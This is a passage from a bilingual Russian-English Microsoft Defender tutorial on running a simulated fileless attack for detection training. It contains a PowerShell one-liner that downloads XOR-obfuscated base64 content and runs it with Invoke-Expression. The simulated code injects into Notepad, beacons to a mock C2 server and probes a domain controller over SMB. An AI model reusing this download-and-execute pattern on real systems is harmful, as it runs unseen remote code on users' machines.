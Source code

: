    ```powershell
   [Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor
   = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String = (Invoke-WebRequest -URI "https://winatpmanagement.windows.com/client/management/static/MTP_Fileless_Recon.txt"
   -UseBasicParsing).Content;Try{ $contentBytes = [System.Convert]::FromBase64String($base64String) } Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;
   $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];
   $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
   ```

   > [!NOTE]
   > <span data-ttu-id="34198-187">Если вы откроете эту статью в веб-браузере, могут возникнуть проблемы с копированием полного текста без потери определенных символов или введения дополнительных разрывов строк.</span><span class="sxs-lookup"><span data-stu-id="34198-187">If you open this article on a web browser, you might encounter problems copying the full text without losing certain characters or introducing extra line breaks.</span></span> <span data-ttu-id="34198-188">В этом случае скачайте этот документ и откройте его в Adobe Reader.</span><span class="sxs-lookup"><span data-stu-id="34198-188">If this is the case, download this document and open it on Adobe Reader.</span></span>

5. <span data-ttu-id="34198-189">Вклеить и запустить скопированные скрипты в окне PowerShell.</span><span class="sxs-lookup"><span data-stu-id="34198-189">Paste and run the copied script in the PowerShell window.</span></span>

> [!NOTE]
> <span data-ttu-id="34198-190">Если вы используете PowerShell с помощью протокола удаленного рабочего стола (RDP), используйте команду Type Clipboard Text в клиенте RDP, так как метод **CTRL-V** или метод вклейки правой кнопкой мыши может не работать.</span><span class="sxs-lookup"><span data-stu-id="34198-190">If you're running PowerShell using remote desktop protocol (RDP), use the Type Clipboard Text command in the RDP client because the **CTRL-V** hotkey or right-click-paste method might not work.</span></span> <span data-ttu-id="34198-191">Недавние версии PowerShell иногда также не принимают этот метод, вам может потребоваться скопировать Блокнот в памяти, скопировать его в виртуальной машине, а затем вклеить его в PowerShell.</span><span class="sxs-lookup"><span data-stu-id="34198-191">Recent versions of PowerShell sometimes will also not accept that method, you might have to copy to Notepad in memory first, copy it in the virtual machine, and then paste it into PowerShell.</span></span>

<span data-ttu-id="34198-192">Через несколько секунд приложение Блокнот откроется.</span><span class="sxs-lookup"><span data-stu-id="34198-192">A few seconds later, the Notepad app will open.</span></span> <span data-ttu-id="34198-193">Смоделированный код атаки будет вводиться в Блокнот.</span><span class="sxs-lookup"><span data-stu-id="34198-193">A simulated attack code will be injected into Notepad.</span></span> <span data-ttu-id="34198-194">Держите автоматически созданный экземпляр Блокнот открытым для полного сценария.</span><span class="sxs-lookup"><span data-stu-id="34198-194">Keep the automatically generated Notepad instance open to experience the full scenario.</span></span>

<span data-ttu-id="34198-195">Смоделированный код атаки будет пытаться связываться с внешним IP-адресом (имитирующим сервер C2), а затем пытаться вести разведку в отношении контроллера домена через SMB.</span><span class="sxs-lookup"><span data-stu-id="34198-195">The simulated attack code will attempt to communicate to an external IP address (simulating the C2 server) and then attempt reconnaissance against the domain controller through SMB.</span></span>

<span data-ttu-id="34198-196">Это сообщение будет отображаться на консоли PowerShell после завершения сценария.</span><span class="sxs-lookup"><span data-stu-id="34198-196">You'll see this message displayed on the PowerShell console when this script completes:</span></span>
